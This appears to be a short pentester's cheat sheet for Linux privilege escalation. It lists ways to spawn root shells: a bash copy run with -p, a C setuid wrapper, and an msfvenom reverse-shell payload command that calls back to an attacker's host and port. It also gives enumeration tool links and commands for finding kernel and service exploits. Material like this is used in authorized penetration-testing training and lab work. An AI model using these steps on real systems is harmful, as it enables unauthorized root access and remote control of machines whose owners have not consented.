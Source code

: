 # Linux privilege escalation

## 1 Spawning root shell

### 1.1 Rootbash

Create copy of `/bin/bash` as `/bin/rootbash` , then run `/bin/rootbash -p`

### 1.2 Executable

Create bash wrapper in c

```text
int main(){
    setuid(0);
    system("/bin/bash");
}
```

Then, compile it as a root

```text
gcc -o <out_file> <source_code>
```

### 1.3 Msfvenom executable

Create msfvenom payload, then execute as root.

```text
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f elf > shell
```

### 1.4 Native reverse shells

```text
https://github.com/mthbernardes/rsg
```

## 2 Enumeration tools

```text
https://github.com/diego-treitos/linux-smart-enumeration
https://github.com/rebootuser/LinEnum
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
https://github.com/sleventyeleven/linuxprivchecker
https://github.com/AlessandroZ/BeRoot
http://pentestmonkey.net/tools/audit/unix-privesc-check
```

## Techniques

### Kernel exploits

Get kernel version

```text
uname -a 
cat /etc/issue
```

Find an exploit for that particular kernel version

```text
searchsploit linux kernel <version> priv esc
./linux-exploit-suggester-2.pl -k <version>
```

### Service exploits

Find services running as root

```text
ps aux | grep "^root"
netstat -nl
```

Check their versions

```text
<service> -v
<service> --version
dpkg -l | grep <service>
rpm -qa | grep <service>
```

